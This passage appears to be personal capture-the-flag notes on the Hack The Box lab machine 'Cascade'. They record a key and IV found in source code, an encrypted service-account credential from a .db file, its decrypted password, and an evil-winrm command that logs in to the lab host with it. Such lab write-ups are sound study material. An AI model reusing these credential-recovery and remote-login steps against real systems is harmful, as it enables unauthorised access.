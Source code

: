 
```
DomainPwd!c4scadek3y6543217Error decrypting password:
```

```
c4scadek3y654321
```

```
1tdyjCbY1Ix49842
```
![[Pasted image 20240917081807.png]]

We found the key but let's find the password from the .db file and with the help of chat-gpt 
will enumerate it
```
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```
![[Pasted image 20240917083411.png]]

Data 
```
BQO5l5Kj9MdErXx6Q6AGOw==
```

Key
```
1tdyjCbY1Ix49842
```

Secret Key
```
c4scadek3y654321
```

Password
```
w3lc0meFr31nd
```

![[Pasted image 20240917183041.png]]


```
evil-winrm -u 'ArkSvc' -p 'w3lc0meFr31nd' -i 10.10.10.182  
```

![[Pasted image 20240918045612.png]]


